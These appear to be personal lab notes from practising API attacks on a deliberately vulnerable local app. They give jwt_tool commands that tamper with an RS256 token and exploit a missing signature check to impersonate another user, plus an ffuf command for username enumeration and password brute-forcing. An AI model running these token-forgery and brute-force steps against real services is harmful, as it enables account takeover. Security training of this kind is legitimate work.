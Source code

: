 ![[jwt_tool.png]]



And returns the information in the header and payload of JWT

To tamper with the Token

```sh
jwt_tool eyJhbGciOiJSUzI1NiJ9.eyJzdWIiOiJhQGIuY29tIiwicm9sZSI6InVzZXIiLCJpYXQiOjE3MDIwMzk4NzksImV4cCI6MTcwMjY0NDY3OX0.bjyqwsgh56jBRHH70SmJV9a3BBbh0BtKKS41hbTp4Itn-KtoGrrWNmS_3Kn_DyTahuNlN8v7ye0xR3On-jKiRj_VSoEW_zoAcxPFOJ9m1cM-XAWjBRMYCwlZXCclf91YmXpOmk-45vPpPEMaKvfqoEs-IsBaiBM7stTZq6Usx_1LvDMSNt6bav7ksNLa5BxJFS5XV3kOxwoNR9o-R6Ejz3EyTeQX0IAdbY3qodLXgK6xG1FXi1q4Ii89VkxHObzS6Ea5zjtE0VjKcwOfgiRvzv7AOeZ-JaWZEG-y2VRHHkBkOUwS8mjf_xPx1L7lAbjq9esVeoN9RbxbPtBU0b9wog -T
```

***The Algo used is RS256 which uses asymetric encryption and we dont have the key to sign***
so we just enter a new random key

We can use this if signature not verified

Send request to an endpoint that verifies the token 


```sh
jwt_tool -t http://localhost:8888/identity/api/v2/user/dashboard -rh "Authorization: Bearer eyJhbGciOiJSUzI1NiJ9.eyJzdWIiOiJhQGIuY29tIiwicm9sZSI6InVzZXIiLCJpYXQiOjE3MDIwMzk4NzksImV4cCI6MTcwMjY0NDY3OX0.bjyqwsgh56jBRHH70SmJV9a3BBbh0BtKKS41hbTp4Itn-KtoGrrWNmS_3Kn_DyTahuNlN8v7ye0xR3On-jKiRj_VSoEW_zoAcxPFOJ9m1cM-XAWjBRMYCwlZXCclf91YmXpOmk-45vPpPEMaKvfqoEs-IsBaiBM7stTZq6Usx_1LvDMSNt6bav7ksNLa5BxJFS5XV3kOxwoNR9o-R6Ejz3EyTeQX0IAdbY3qodLXgK6xG1FXi1q4Ii89VkxHObzS6Ea5zjtE0VjKcwOfgiRvzv7AOeZ-JaWZEG-y2VRHHkBkOUwS8mjf_xPx1L7lAbjq9esVeoN9RbxbPtBU0b9wog" -M at
```

From tests, it reveals that application is not checking the signatures

![[jwt_toolAttack.png]]

broken signature response same as correct token response

Since signature not being checked, we can change email field to that of a diffrent user 


---

### Challenge


##### Brute Force Challenge 

We have username enumeration

copy the request file from burp suite and to fuzzing

```sh
ffuf -c -w /usr/share/wordlists/seclists/SecLists-master/Usernames/xato-net-10-million-usernames.txt:FUZZ -request req.txt -request-proto http -fs 31
```

Found username : jeremy
Now fuzz for the password
